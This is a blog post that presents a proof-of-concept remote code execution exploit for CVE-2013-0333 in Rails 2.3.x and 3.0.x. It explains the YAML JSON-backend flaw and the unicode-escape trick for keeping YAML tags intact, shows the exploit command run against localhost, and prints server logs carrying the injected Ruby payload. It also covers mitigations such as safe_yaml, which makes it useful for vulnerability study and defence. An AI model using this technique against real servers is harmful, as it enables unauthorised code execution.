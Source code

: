 ```yaml
---
layout: post
title: Rails PoC exploit for CVE-2013-0333
author: postmodern
tags:
 - rails
 - ronin
 - poc
 - exploit
---
```


**TL;DR:** Same YAML [vulnerability][1], different code-path.

* [rails_omakase.rb]

Hot on the heels of [CVE-2013-0156], [CVE-2013-0333] was announced.
A code-path was discovered that allows `text/json` requests to be
translated into and parsed as YAML. This behavior _only_ exists in
Rails 2.3.x and 3.0.x.
 
This exploit uses the same YAML deserialization technique as the previous
[Rails PoC exploit][rails_rce.rb]. Please see the previous [write-up][1] for a
detailed explanation of how to achieve Remote Code Execution (RCE) via
`YAML.load`.

## ActiveSupport::JSON

In Rails 3.0.x, [ActiveSupport::JSON] acts as a proxy to various JSON parsing
libraries. By default Rails 3.0.x provides the [JSONGem], [Yajl] and [Yaml]
backends. [JSONGem] uses the [json] gem, [Yajl] uses the high-performance
[yajl] JSON parser, and [Yaml] attempts to translate JSON into YAML
before passing it to `YAML.load`. Oddly enough, [Yaml] (and not [JSONGem])
is the default JSON backend in Rails 3.0.x:

{% highlight ruby %}
ActiveSupport::JSON.backend
# => ActiveSupport::JSON::Backends::Yaml
{% endhighlight %}

The problem with the [Yaml] backend is that it's [convert_json_to_yaml] method
is incredibly naive. The method uses [StringScanner] to walk through the JSON
string, replacing JSON tokens with their YAML equivalents. The method does not
fully parse the JSON in order to emit proper YAML, nor does it validate that
the input is actually valid JSON. This is our opening.

However, [convert_json_to_yaml] does replace all `:` characters with `: `,
in an attempt to convert JSON Hashes into YAML Hashes. This will corrupt
our YAML tags:

{% highlight ruby %}
yaml = "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml)
# => "--- !ruby/hash: ActionController: : Routing: : RouteSet: : NamedRouteCollection"
{% endhighlight %}

Luckily, [convert_json_to_yaml] also parses JSON unicode-escaped characters:

{% highlight ruby %}
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml.gsub(':','\u003a'))
# => "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
{% endhighlight %}

Now to get the YAML payload from [rails_rce.rb] executing. The `module_eval`ed
code in [ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access][define_hash_access 3.0.x]
was similar to that of Rails 2.8.x, and was changed in [Rails 3.1.x][define_hash_access 3.1.x].
Due to this difference, we simply reused the Rails 2.x payload from the
[rails_rce.rb] exploit.

After some minor modifications to [rails_rce.rb] we had a working exploit:

    $ rails_omakase http://localhost:3000/secrets "puts 'lol'"

    lol
    
    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 18:53:18 -0800
      Processing by SecretsController#show as 
      Parameters: {"_json"=>#<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x00000002221080 @routes={:"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>#<struct defaults={:action=>"create", :controller=>"foos"}, required_parts=[], requirements={:action=>"create", :controller=>"foos"}, segment_keys=[:format]>}, @helpers=[:"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path"], @module=#<Module:0x00000002220fb8>>}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.4ms | ActiveRecord: 0.0ms)

## Again?

When Rails was updated for [CVE-2013-0156], it did not actually fix the
underlying root cause, that the [Psych][psych] YAML parser
[does not have a safe-mode][5]. As long as developers continue allowing
user-input near `YAML.load`, and there is no safe-mode to prevent YAML from
deserializing arbitrary Classes, YAML deserialization vulnerabilities will
continue to pop up. In the meantime, there is a [safe_yaml] library, which
provides a safe-mode and does prevent [rails_omakase.rb] from working:

    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 21:34:37 -0800
      Processing by SecretsController#show as 
      Parameters: {"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>{"defaults"=>{":action"=>"create", ":controller"=>"foos"}, "required_parts"=>nil, "requirements"=>{":action"=>"create", ":controller"=>"foos"}, "segment_keys"=>[":format"]}}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.2ms | ActiveRecord: 0.0ms)

**Update:** [@nelhage] has also written a [monkey-patch][6] for YAML,
that prevents any non-primitive objects from being deserialized. I have tested
this workaround against [rails_omakase.rb] on Ruby 1.9.3-p362 and Rails 3.0.19,
and can confirm it prevents the exploit from working. However, once loaded
it effects all `YAML.load` calls and cannot be disabled.

## Omakase?

I named this exploit [rails_omakase.rb], as an ode to [Rails Is Omakase][2];
I highly recommend the [dramatic reading][3]. In the blog post,
David Heinemeier Hansson (DHH) discusses the criticism Rails Core has received
over their changes to default settings. His main complaint is that merely
complaining about the changes, and not contributing code, does not improve the 
development process of Rails.

This vulnerability was the result of [changing the default JSON backend][4] from
[JSONGem] to [Yaml]. Additionally, it is unclear why anyone would ever
consider attempting to convert JSON into YAML, without fully parsing it first.
Like wise, [CVE-2013-0156] is equally perplexing, who could possibly think any
good would come from embedding YAML in XML?

Despite DHH's reassurance that Rails Core has the best of intentions when they
change default settings, they can and do make mistakes.

[CVE-2013-0156]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/61bkgvnSGTQ
[CVE-2013-0333]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/1h2DR63ViGo

[rails_omakase.rb]: https://gist.github.com/4660248
[rails_rce.rb]: https://gist.github.com/4499206

[json]: http://flori.github.com/json/
[yajl]: http://lloyd.github.com/yajl/
[psych]: https://github.com/tenderlove/psych
[safe_yaml]: https://github.com/dtao/safe_yaml#readme

[StringScanner]: http://rubydoc.info/stdlib/strscan/StringScanner
[ActiveSupport::JSON]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/decoding.rb
[JSONGem]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/jsongem.rb
[Yajl]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yajl.rb
[Yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb
[convert_json_to_yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb#L29-L96
[define_hash_access 3.0.x]: https://github.com/rails/rails/blob/v3.0.19/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171
[define_hash_access 3.1.x]: https://github.com/rails/rails/blob/v3.1.0/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171

[1]: /blog/2013/01/09/rails-pocs.html
[2]: http://david.heinemeierhansson.com/2012/rails-is-omakase.html
[3]: http://gilesbowkett.blogspot.com/2013/01/a-dramatic-reading-of-rails-is-omakase.html
[4]: https://github.com/rails/rails/commit/a87683fb38d6cf66f39a7bd3faa6c969c63b1f46
[5]: https://github.com/tenderlove/psych/issues/119
[6]: https://gist.github.com/4659489

[@nelhage]: https://twitter.com/nelhage
